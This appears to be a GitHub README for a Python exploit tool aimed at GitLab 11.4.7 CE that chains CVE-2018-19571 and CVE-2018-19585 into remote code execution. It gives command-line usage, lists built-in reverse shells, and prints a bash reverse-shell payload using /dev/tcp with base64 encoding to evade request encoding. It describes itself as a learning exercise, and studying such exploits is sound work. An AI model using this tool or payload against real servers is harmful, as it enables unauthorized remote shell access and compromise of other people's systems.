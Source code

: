 # gitlab-RCE-11.4.7
GitLab 11.4.7 CE RCE exploit with different reverse shells.  
CVE-2018-19571: https://nvd.nist.gov/vuln/detail/CVE-2018-19571  
CVE-2018-19585: https://nvd.nist.gov/vuln/detail/CVE-2018-19585

Modification of the version from [Sam Redmond and Tam Lai Yin](https://github.com/ctrlsam/GitLab-11.4.7-RCE) in order to learn and practice.

## How to use

It is written in python3 as all things should be.

Dependencies:
```
pip3 install requests
```

Use:

```
python3 rce_script.py -u <username> -p <password> -g <url:port> -l <local ip> -P <local port> [<shell lang>]
```

By default, the netcat with -e option shell is used.


## Build-in shells

Current build-in shells:

  - nc_e
    - Netcat with the -e option.
  - bash: 
    - Bash executed with absolute path.
  - perl: 
    - Perl executed from the $PATH.
  - python3: 
    - Python3 executed from the $PATH.
  - ruby: 
    - Ruby executed from the $PATH.
  - php: 
    - PHP executed from the $PATH. **Note**: Usually doesn't work in the GitLab docker.

## Add user-defined shells

Some shells contain characters thats doesn't get along with the request encoding. Therefore they are encoded in Base64 and then decoded and executed in the victim's machine.

If you want to add your own shell, add a value to the ```payloads_dict``` structure.

You must define the following:

```python
'bash': {
    # If the raw_payload can be executed withoud encoding
    'safe': False,
    # Payload, must contain the references for the local_ip and for the local_port
    'raw_payload': 'bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1',
    # How to execute the payload if safe is False. Must conatin the reference for payload
    'exec_string': 'echo {payload} | base64 -d | /bin/bash'
}
```

## Disclaimer

The HTML parsing is pretty hardcoded, it may break easily.



